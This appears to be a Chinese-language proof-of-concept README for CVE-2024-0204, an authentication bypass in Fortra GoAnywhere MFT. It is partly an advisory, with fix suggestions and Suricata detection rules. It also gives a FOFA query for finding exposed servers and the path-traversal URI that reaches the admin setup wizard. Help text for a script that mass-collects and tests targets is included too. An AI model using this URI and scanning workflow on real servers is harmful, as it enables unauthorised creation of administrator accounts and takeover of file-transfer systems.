 ### 产品简介  
Fortra GoAnywhere MFT是美国Fortra公司的一种安全的文件传输解决方案。  

### 漏洞概述  
Fortra GoAnywhere MFT 7.4.1之前版本存在安全漏洞。攻击者利用该漏洞绕过身份验证，从而通过管理门户创建管理员用户。  

### 指纹识别  
fofa: "GoAnywhere" && icon_hash="1484947000"  

### 漏洞利用  
```
/goanywhere/images/..;/wizard/InitialAccountSetup.xhtml
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/CVE-2024-0204/1.png)

### 测试和利用脚本  
```
python3 CVE-2024-0204.py -h
usage: CVE-2024-0204.py [-h] [-t] [-r FILE] [-u URL]

### GoAnywhere MFT authentication bypass vulnerability (CVE-2024-0204). ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python CVE-2024-0204.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python CVE-2024-0204.py -u http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"GoAnywhere MFT authentication bypass vulnerability (CVE-2024-0204)"; flow:established,to_server; flowbits:set,GoAnywhere; content:"get";http_method;nocase; content:"/goanywhere/images/..\;/wizard/InitialAccountSetup.xhtml";http_uri;fast_pattern;nocase; reference:cve,CVE-2024-0204; classtype:CVE; metadata:created_at 2024-01-29,updated_at 2024-01-29,creater:YUUKI4O4; sid:25; rev:1;)
alert http any any -> any any (msg:"GoAnywhere MFT authentication bypass vulnerability (CVE-2024-0204)"; flow:established,from_server; flowbits:isset,GoAnywhere; content:"200";http_stat_code; content:"username";http_server_body;nocase; content:"password";http_server_body;nocase; reference:url,https://github.com/cbeek-r7/CVE-2024-0204/blob/main/CVE-2024-0204-scan.py; reference:cve,CVE-2024-0204; classtype:CVE; metadata:created_at 2024-01-29,updated_at 2024-01-29,creater:YUUKI4O4; sid:26; rev:1;)
```
